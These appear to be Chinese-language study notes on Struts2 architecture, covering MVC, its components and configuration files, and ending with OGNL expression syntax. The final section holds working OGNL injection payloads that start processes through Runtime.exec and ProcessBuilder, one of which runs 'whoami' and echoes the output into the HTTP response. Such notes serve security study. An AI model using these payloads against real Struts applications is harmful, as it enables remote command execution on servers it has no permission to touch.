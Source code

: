 # STRUT架构

1. MVC架构
    
    <aside>
    💡 业务逻辑（C），数据（M），显示界面（V）分离的模式
    
    </aside>
    
    1. 模型*（Model）*
        - 负责存储系统的中心数据，核心算法，操作数据库
    2. 视图*（View）*
        - 将信息显示给用户
    3. 控制器*（Controller）*
        - 处理用户输入的信息，用户动作转换成模型层的输入，调用模型
2. Strut2架构
    
    <aside>
    💡 Strut2架构是MVC架构的一种实现
    
    </aside>
    
    1. 视图*（View）*
        
        <aside>
        💡 创建一个JSP与用户进行交互
        
        </aside>
        
        - 操作*（Action）*
    2. 控制器*（Controller）*
        - 解包过滤，分配模型*（Dispatcher Filter）*
        - 拦截器*（Interceptor）*
    3. 模型*（Model）*
        - 动作*（Action）*
        - 值栈*（Value Stack）*
            
            <aside>
            💡 OGNL表达式技术栈实现
            
            </aside>
            
        - 结果*（Result）*
    4. 配置文件*（Configuration File）*
        - 连接动作，视图以及控制器
            
            <aside>
            💡 分别是struts.xml，web.xml，struts.properties
            
            </aside>
            
3. OGNL表达式
    - 调用静态方法
        
        ```java
        @package.classname@methodname(parameter)
        ```
        
        - 实例
            
            ```java
            %{@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")}
            ```
            
            ```java
            %{(new java.lang.ProcessBuilder(new java.lang.String[]{“calc.exe”})).start()}
            ```
            
            ```java
            %{
            #a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),
            #b=#a.getInputStream(),
            #c=new java.io.InputStreamReader(#b),
            #d=new java.io.BufferedReader(#c),
            #e=new char[50000],
            #d.read(#e),
            #f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
            #f.getWriter().println(new java.lang.String(#e)),
            #f.getWriter().flush(),
            #f.getWriter().close()
            }
            ```